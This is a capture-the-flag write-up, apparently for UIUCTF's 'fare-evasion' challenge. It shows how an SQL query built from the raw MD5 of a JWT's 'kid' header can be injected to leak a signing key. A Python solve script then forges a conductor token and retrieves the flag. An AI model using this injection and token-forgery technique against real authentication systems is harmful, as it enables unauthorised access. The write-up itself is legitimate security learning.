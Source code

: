 ```yaml
---
created: 2024-06-28T20:52
updated: 2024-07-07T23:06
---
```


## Analyze
A quick analysis of the network requests tells me that I have to sign my own JWT with the type `conductor` and a different kid.

```json
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```

```json
{
  "type": "passenger"
}
```

Using a random key doesn't work.

```
Key isn't passenger or conductor. Please sign your own tickets.
```

### Hint
The message returned has hash in messy unicode, that's peculiar, and it appears that the server is querying based on raw md5, using unsafe string concatenation.

```js
// i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
```

## Solve
We will reference past writeups [^1], and use their payload for md5 exploitation.
The basic idea is that raw md5 of this payload will result in a sql injection like this

```sql
SELECT login FROM admins WHERE password = 'xxx'||'1xxxxxxxx'
```

```python
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
```

We will first modify the header's kid, without changing anything.

```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. 
hashed ô÷uÞIB♣BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed Rò▲sÜxÉÄ☻Å´↕\ä secret: a_boring_passenger_signing_key_?
```

SQL injection worked and we have our conductor key.

### Solve Script

```python
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
# Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```

[^1]: [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
